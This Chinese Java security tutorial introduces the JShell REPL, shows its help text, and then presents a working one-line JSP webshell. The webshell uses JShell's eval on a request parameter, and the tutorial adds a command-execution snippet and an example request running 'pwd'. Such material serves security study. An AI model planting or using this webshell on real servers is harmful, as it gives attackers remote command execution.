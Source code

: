 # JShell

从`Java 9`开始提供了一个叫`jshell`的功能，`jshell`是一个`REPL(Read-Eval-Print Loop)`命令行工具，提供了一个交互式命令行界面，在`jshell`中我们不再需要编写类也可以执行Java代码片段，开发者可以像`python`和`php`一样在命令行下愉快的写测试代码了。

命令行执行`jshell`即可进入`jshell`模式：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20191219163053592.png)

输入:`/help`可以查看具体的命令:

```bash
|  键入 Java 语言表达式, 语句或声明。
|  或者键入以下命令之一:
|  /list [<名称或 id>|-all|-start]
|  	列出您键入的源
|  /edit <名称或 id>
|  	编辑按名称或 id 引用的源条目
|  /drop <名称或 id>
|  	删除按名称或 id 引用的源条目
|  /save [-all|-history|-start] <文件>
|  	将片段源保存到文件。
|  /open <file>
|  	打开文件作为源输入
|  /vars [<名称或 id>|-all|-start]
|  	列出已声明变量及其值
|  /methods [<名称或 id>|-all|-start]
|  	列出已声明方法及其签名
|  /types [<名称或 id>|-all|-start]
|  	列出已声明的类型
|  /imports 
|  	列出导入的项
|  /exit 
|  	退出 jshell
|  /env [-class-path <路径>] [-module-path <路径>] [-add-modules <模块>] ...
|  	查看或更改评估上下文
|  /reset [-class-path <路径>] [-module-path <路径>] [-add-modules <模块>]...
|  	重启 jshell
|  /reload [-restore] [-quiet] [-class-path <路径>] [-module-path <路径>]...
|  	重置和重放相关历史记录 -- 当前历史记录或上一个历史记录 (-restore)
|  /history 
|  	您键入的内容的历史记录
|  /help [<command>|<subject>]
|  	获取 jshell 的相关信息
|  /set editor|start|feedback|mode|prompt|truncation|format ...
|  	设置 jshell 配置信息
|  /? [<command>|<subject>]
|  	获取 jshell 的相关信息
|  /! 
|  	重新运行上一个片段
|  /<id> 
|  	按 id 重新运行片段
|  /-<n> 
|  	重新运行前面的第 n 个片段
|  
|  有关详细信息, 请键入 '/help', 后跟
|  命令或主题的名称。
|  例如 '/help /list' 或 '/help intro'。主题:
|  
|  intro
|  	jshell 工具的简介
|  shortcuts
|  	片段和命令输入提示, 信息访问以及
|  	自动代码生成的按键说明
|  context
|  	/env /reload 和 /reset 的评估上下文选项
```

## 使用JShell执行代码片段

`jshell`不仅是一个命令行工具，在我们的应用程序中同样也可以调用`jshell`内部的实现API，也就是说我们可以利用`jshell`来执行Java代码片段而不再需要将Java代码编译成class文件后执行了。

`jshell`调用了`jdk.jshell.JShell`类的`eval`方法来执行我们的代码片段，那么我们只要想办法调用这个`eval`方法也就可以实现真正意义上的一句话木马了。

**`jshell.jsp`一句话木马示例:**

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src"))%>
```

程序执行后会输出一些不必要的信息，如果有强迫症可以修改为：

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
```

然后我们需要编写一个执行本地命令的代码片段：

```java
new String(Runtime.getRuntime().exec("pwd").getInputStream().readAllBytes())
```

`Java 9`的`java.io.InputStream`类正好提供了一个`readAllBytes`方法，我们从此以后再也不需要按字节读取了。

浏览器请求：http://localhost:8080/jshell.jsp?src=new%20String(Runtime.getRuntime().exec(%34pwd%34).getInputStream().readAllBytes())

程序执行结果：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20191219170956644.png)